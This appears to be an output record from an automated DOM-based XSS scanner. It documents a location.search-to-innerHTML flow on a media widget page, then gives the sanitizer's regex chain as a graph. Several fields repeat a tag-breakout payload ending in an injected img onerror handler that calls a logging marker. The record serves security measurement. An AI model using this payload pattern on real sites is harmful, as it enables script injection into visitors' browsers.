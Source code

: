 // Finding: 74cc0b2d-b4b9-4607-bfbe-f670bb79df74
// Finding.url: https://cdn.example262.com/widgets/media.html?url=https://example136.com/CBBonFOX/status/1349191604326850561&image=https://pbs.example137.com/media/ErlKnKfW4Acowbu.jpg:large&video=https://video.example137.com/amplify_video/1349191545388490752/vid/1280x720/ft0kgSTp9oiDAdxg.mp4?tag=13"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('6ecea16db737453fa7158d41815f3b7d')><!--/*&video_secure=true&type=video/mp4&schema=instagram
// Finding.parentloc: https://cdn.example262.com/widgets/media.html?url=https://example136.com/CBBonFOX/status/1349191604326850561&image=https://pbs.example137.com/media/ErlKnKfW4Acowbu.jpg:large&video=https://video.example137.com/amplify_video/1349191545388490752/vid/1280x720/ft0kgSTp9oiDAdxg.mp4?tag=13"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('6ecea16db737453fa7158d41815f3b7d')><!--/*&video_secure=true&type=video/mp4&schema=instagram
// Finding.domain: cdn.example262.com
// Finding.base_domain: example262.com
// Finding.source: location.search
// Finding.sink: innerHTML
// Sanitizer.score: 13
// Sanitizer.name: require<[24]</e.sanitize
// Sanitizer.location: https://cdn.example262.com/widgets/media.html?url=https://example136.com/CBBonFOX/status/1349191604326850561&image=https://pbs.example137.com/media/ErlKnKfW4Acowbu.jpg:large&video=https://video.example137.com/amplify_video/1349191545388490752/vid/1280x720/ft0kgSTp9oiDAdxg.mp4?tag=13"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('6ecea16db737453fa7158d41815f3b7d')><!--/*&video_secure=true&type=video/mp4&schema=instagram - r/<:8:21555
// Finding.begin: 118
// Finding.end: 171
// Finding.original_uuid: e1a339a4-1614-4bff-abab-378d0d5144d0
// Finding.TwentyFiveMillionFlowsId: 1561684988
// Finding.script: https://cdn.example262.com/widgets/media.html?url=https://example136.com/CBBonFOX/status/1349191604326850561&image=https://pbs.example137.com/media/ErlKnKfW4Acowbu.jpg:large&video=https://video.example137.com/amplify_video/1349191545388490752/vid/1280x720/ft0kgSTp9oiDAdxg.mp4?tag=13"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('6ecea16db737453fa7158d41815f3b7d')><!--/*&video_secure=true&type=video/mp4&schema=instagram
// Finding.line: 9
// Exploit.uuid: 6ecea16d-b737-453f-a715-8d41815f3b7d
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: "
// Exploit.tag: source
// Exploit.break_out: https://video.example137.com/amplify_video/1349191545388490752/vid/1280x720/ft0kgSTp9oiDAdxg.mp4?tag=13"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: https://video.example137.com/amplify_video/1349191545388490752/vid/1280x720/ft0kgSTp9oiDAdxg.mp4?tag=13"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 169
// Exploit.end_taint_url: 267
// Exploit.replace_begin_url: 169
// Exploit.replace_end_url: 267
// Exploit.replace_begin_param: 186
// Exploit.replace_end_param: 284
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -840598978
// DepGraph.sanitizer_hash: -840598978

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /#x\d\d;/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /[^-A-Za-z0-9+&@#\/%?=~_|!:,.;\(\)]/"];
n7 [shape=box, label="Lit: "];
n8 [shape=box, label="Var: x"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}